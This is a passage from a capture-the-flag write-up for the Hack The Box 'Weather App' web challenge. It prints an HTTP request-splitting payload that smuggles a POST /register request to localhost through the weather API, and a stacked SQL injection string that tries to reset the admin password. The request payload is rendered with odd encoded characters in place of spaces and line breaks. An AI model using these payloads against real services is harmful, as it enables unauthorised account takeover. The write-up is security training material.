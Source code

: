 <img src="https://raw.githubusercontent.com/hacefresko/HTB-Web-WriteUps/main/Weather%20App/images/url.png" width="700px">

If we send to the API an endpoint like '127.0.0.1/ĠHTTP/1.1čĊHost:Ġ127.0.0.1čĊčĊPOSTĠ/registerĠHTTP/1.1čĊHost:Ġ127.0.0.1čĊContent-Type:Ġapplication/x-www-form-urlencodedčĊContent-Length:Ġ29čĊčĊusername=admin&password=adminčĊčĊGETĠ/?lol=', the server will make a request to 'http://127.0.0.1/ĠHTTP/1.1čĊHost:Ġ127.0.0.1čĊčĊPOSTĠ/registerĠHTTP/1.1čĊHost:Ġ127.0.0.1čĊContent-Type:Ġapplication/x-www-form-urlencodedčĊContent-Length:Ġ29čĊčĊusername=admin&password=adminčĊčĊGETĠ/?lol=/data/2.5/weather?q=lol,lol&units=metric&appid=10a62430af617a949055a46fa6dec32f', and it will produce:

    '''
    GET / HTTP/1.1
    Host: 127.0.0.1

    POST /register HTTP/1.1
    Host: 127.0.0.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 29

    username=admin&password=admin

    GET /?lol=/data/2.5/weather?q=lol,lol&units=metric&appid=10a62430af617a949055a46fa6dec32f HTTP/1.1
    [...]
    '''

We can write an exploit to automate this:

<img src="https://raw.githubusercontent.com/hacefresko/HTB-Web-WriteUps/main/Weather%20App/images/exploit.png" width="700px">


## SQL Injection

Now, we can inject what we want in the register query:

<img src="https://raw.githubusercontent.com/hacefresko/HTB-Web-WriteUps/main/Weather%20App/images/query.png" width="700px">

Recall that we are using the docker container on our local machine, so we can modify the server and insert console.log() wherever we want to check the effects of our payloads.

First thing we can try is Time-Based blind SQLi, since we cannot see the result of any query. SQLite (moduel used is sqlite-async) doesn't have a builtin functions for sleeping, but we can simulate it with randomblob(100000000), which will cause a bit of delay.
But, since the request is made by the server (not by us) and Node is asynchronous, we cannot spot the delay.

Trying stacked queries in password parameter such as
    '''
    1337'); UPDATE users SET password='admin' WHERE username='admin';--
    '''
will produce
    '''
    INSERT INTO users (username, password) VALUES ('user', '1337'); UPDATE users SET password='admin' WHERE username='admin';--')
    '''
But, we find out that stacked queries don't work in this database
